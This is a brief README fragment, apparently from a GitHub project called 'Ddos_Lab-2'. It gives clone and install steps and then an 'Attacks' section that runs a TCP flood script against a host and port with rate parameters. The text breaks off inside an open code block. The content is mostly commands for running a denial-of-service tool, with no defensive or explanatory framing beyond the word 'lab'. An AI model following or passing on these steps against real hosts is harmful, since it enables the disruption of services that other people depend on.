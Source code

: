 git clone https://github.com/Mrglitchoffical/Ddos_Lab-2.git

cd Ddos_Lab-2

apt install python -y

pip install -r requirements.txt

## Attacks

### TCP Flood
```bash
cd attack
python3 tcp_flood.py 192.168.0.100 80 200 0.01
